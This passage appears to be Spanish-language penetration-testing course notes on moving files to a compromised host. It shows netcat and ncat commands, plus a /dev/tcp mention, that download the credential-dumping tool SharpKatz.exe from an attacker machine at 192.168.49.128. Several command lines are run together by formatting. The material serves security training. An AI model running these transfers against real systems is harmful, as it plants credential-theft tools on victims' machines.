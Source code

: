 ### **La máquina comprometida se conecta a NetCat para recibir el archivo**

Métodos de transferencia de archivos varios

```
victim@target:~$ # Example using Original Netcatvictim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Hagamos lo mismo con NCAT:

### **Attack Host - Enviar archivo como entrada a NCAT**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ # Example using Ncatxnoxos@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe

```

### **La máquina comprometida se conecta a NCAT para recibir el archivo**

Métodos de transferencia de archivos varios

```
victim@target:~$ # Example using Ncatvictim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Si no tenemos NetCat o NCAT en nuestra máquina comprometida, Bash admite operaciones de lectura/escritura en un archivo de pseudo-dispositivo[/dev/tcp/](https://tldp.org/LDP/abs/html/devref1.html).

Escribir en este archivo en particular hace que Bash abra una conexión TCP a`host:port`, y esta característica se puede usar para transferencias de archivos.

### **NetCAT: enviar el archivo como entrada a NetCat**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ # Example using Original Netcatxnoxos@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe

```

### **NCAT: enviar archivo como entrada a NCAT**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ # Example using Ncatxnoxos@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe

```
